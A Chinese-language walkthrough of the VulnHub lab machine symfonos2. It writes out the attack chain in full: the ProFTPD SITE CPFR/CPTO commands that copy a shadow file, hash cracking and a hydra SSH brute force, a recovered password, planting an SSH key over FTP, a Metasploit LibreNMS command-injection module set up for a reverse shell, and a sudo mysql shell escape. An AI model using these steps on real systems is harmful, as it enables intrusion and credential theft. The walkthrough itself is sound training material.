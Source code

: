 ```yaml
---
layout: post
title:  "vulnhub >_ symfonos2"
description: walkthrough
category: vulnhub
---
```

# symfonos2

![image-20200622214334864]({{ site.url }}/assets/symfonos2.assets/image-20200622214334864.png)

![image-20200622214517388]({{ site.url }}/assets/symfonos2.assets/image-20200622214517388.png)

```bash
enum4linux -a 192.168.43.83
```

![image-20200622214839554]({{ site.url }}/assets/symfonos2.assets/image-20200622214839554.png)

```bash
smbclient --no-pass //192.168.43.83/anonymous
```

免密连接一下

![image-20200622215016343]({{ site.url }}/assets/symfonos2.assets/image-20200622215016343.png)

查看下载好的log.txt

![image-20200623041203737]({{ site.url }}/assets/symfonos2.assets/image-20200623041203737.png)

得到用户名aeolus。

![image-20200622215855649]({{ site.url }}/assets/symfonos2.assets/image-20200622215855649.png)

ftp 是ProFTPD 1.3.5，是存在漏洞的，但是使用ftp命令是无法匿名登录的，我们尝试使用telnet

![image-20200623041747356]({{ site.url }}/assets/symfonos2.assets/image-20200623041747356.png)

成功匿名登录。利用ProFTPD 1.3.5已知漏洞将在log.txt中发现的被备份出来的shadow文件，复制到我们可以进行下载的smb目录

```bash
SITE CPFR /var/backups/shadow.bak
SITE CPTO /home/aeolus/share/shadow.bak
```

![image-20200623042122076]({{ site.url }}/assets/symfonos2.assets/image-20200623042122076.png)

这时再次免密登录smb，即可看到我们复制过去的shadow.bak

![image-20200623042217585]({{ site.url }}/assets/symfonos2.assets/image-20200623042217585.png)

下载到本地

![image-20200623042254178]({{ site.url }}/assets/symfonos2.assets/image-20200623042254178.png)

查看

![image-20200623073046951]({{ site.url }}/assets/symfonos2.assets/image-20200623073046951.png)

可以看到我们有root及两个额外的用户，拷贝副本，并编辑去掉无用的用户，以及由于是靶机所以我们不可能跑出来的root

![image-20200623074954130]({{ site.url }}/assets/symfonos2.assets/image-20200623074954130.png)

送入john进行破解

![image-20200623075503172]({{ site.url }}/assets/symfonos2.assets/image-20200623075503172.png)

第二种方法，这种要慢于本机使用john

可以尝试hydra破解aeolus的凭证

```bash
sudo hydra -l aeolus -P /usr/share/wordlists/rockyou.txt ssh://192.168.43.83 -t 4 -vV
```


![image-20200623022032522]({{ site.url }}/assets/symfonos2.assets/image-20200623022032522.png)

```bash
aeolus:sergioteamo
```

尝试登录ssh，发现ssh需要公钥。

![image-20200623025021683]({{ site.url }}/assets/symfonos2.assets/image-20200623025021683.png)

登录ftp，密码是复用的。

![image-20200623025106475]({{ site.url }}/assets/symfonos2.assets/image-20200623025106475.png)

查看了一下没有其他东西，文件内容和smb是一个。

首先伪造一套ssh密钥

![image-20200623033042558]({{ site.url }}/assets/symfonos2.assets/image-20200623033042558.png)

我们之前在log.txt中发现smb所进入的目录其真实路径为/home/aeolus/share，而由于其中内容backups与ftp内容一样，可以初步判断这是同一个文件夹。这样可以通过在ftp上传文件后，smb可以同步看到进行确认。



![image-20200623033736172]({{ site.url }}/assets/symfonos2.assets/image-20200623033736172.png)

登录ftp

![image-20200623040219885]({{ site.url }}/assets/symfonos2.assets/image-20200623040219885.png)

此时我们处于的目录应该是/home/aeolus，由于我们是使用aeolus用户登录的，故而，我们对这个目录具有可写权限。

新建.ssh目录，可以通过回显看到我们确实是在正确的目录中。上传我们伪造的ssh公钥。

![image-20200623040425082]({{ site.url }}/assets/symfonos2.assets/image-20200623040425082.png)

此时再次登录ssh并使用我们刚才的id_rsa密钥文件，即可登录ssh

```bash
ssh -i id_rsa aeolus@192.168.43.83
```

![image-20200623040710594]({{ site.url }}/assets/symfonos2.assets/image-20200623040710594.png)



上传linpeas和LinEnum到tmp文件夹做一些基础的枚举

![image-20200623080610926]({{ site.url }}/assets/symfonos2.assets/image-20200623080610926.png)

![image-20200623081749087]({{ site.url }}/assets/symfonos2.assets/image-20200623081749087.png)

在LinEnum的枚举结果中我们注意到用户cronus有运行apache

![image-20200623081917100]({{ site.url }}/assets/symfonos2.assets/image-20200623081917100.png)

并且监听了8080

![image-20200623082006941]({{ site.url }}/assets/symfonos2.assets/image-20200623082006941.png)

来查看一下，目标可以使用curl，用curl查看一下

![image-20200623082505288]({{ site.url }}/assets/symfonos2.assets/image-20200623082505288.png)

确实有一个服务，并且应该是一个登录界面

![image-20200623082605130]({{ site.url }}/assets/symfonos2.assets/image-20200623082605130.png)

我们现在将做一个端口转发，将内部的8080转发到外部，以方便我们进行下一步测试。

```bash
ssh -L 8080:localhost:8080 aeolus@192.168.1.124
```

![image-20200623083648300]({{ site.url }}/assets/symfonos2.assets/image-20200623083648300.png)

这是在kali端浏览本地8080端口，就是目标机器的8080端口。

![image-20200623083631386]({{ site.url }}/assets/symfonos2.assets/image-20200623083631386.png)

libreNMS

![image-20200623090233385]({{ site.url }}/assets/symfonos2.assets/image-20200623090233385.png)

![image-20200623090252729]({{ site.url }}/assets/symfonos2.assets/image-20200623090252729.png)

需要cookie，仔细看看标题是已认证登录之后才能执行远程命令执行。

尝试密码复用，成功

![image-20200623100429737]({{ site.url }}/assets/symfonos2.assets/image-20200623100429737.png)

复制cookie，使用cookie quick manager插件

![image-20200623100545573]({{ site.url }}/assets/symfonos2.assets/image-20200623100545573.png)

前两个都是登录之前的从cookie值，librenms_session则是登录后的cookie值

```bash
librenms_session=eyJpdiI6IlFzMlpSVXRsRkZLM3JwbWgxT0VyZ3c9PSIsInZhbHVlIjoidkl2Tkw2Z0RRaGZrVEQwVENXZkdldXd2cmVNcTVHS3kzQngrdEpjdlI4aVh0OUZ3YkdmeDBHSmt4THFQZXpiTjIxWXZlNldTTXBoa2Vjeit1Zzg4WUE9PSIsIm1hYyI6Ijc0NTUzOTdlMDNmMDhlZmY4ZGVjNzM0Y2M2MGM1OGNmNzhiYmFmYzA3NGVlNWFkMjM2MWZkYTRkM2U4ZDYwNjIifQ%3D%3D
```

构建漏洞利用执行语句
尝试手动利用失败，无法得到shell

利用msf

![image-20200623114419788]({{ site.url }}/assets/symfonos2.assets/image-20200623114419788.png)


```bash
search libre
use exploit/linux/http/librenms_addhost_cmd_inject
set rhosts 127.0.0.1
set rport 8080
set lhost 192.168.1.108
set username aeolus
set password sergioteamo
exploit
```

![image-20200623115903113]({{ site.url }}/assets/symfonos2.assets/image-20200623115903113.png)

![image-20200623120205619]({{ site.url }}/assets/symfonos2.assets/image-20200623120205619.png)

```bash
sudo /usr/bin/mysql -e '\! /bin/sh'
```

![image-20200623120333783]({{ site.url }}/assets/symfonos2.assets/image-20200623120333783.png)

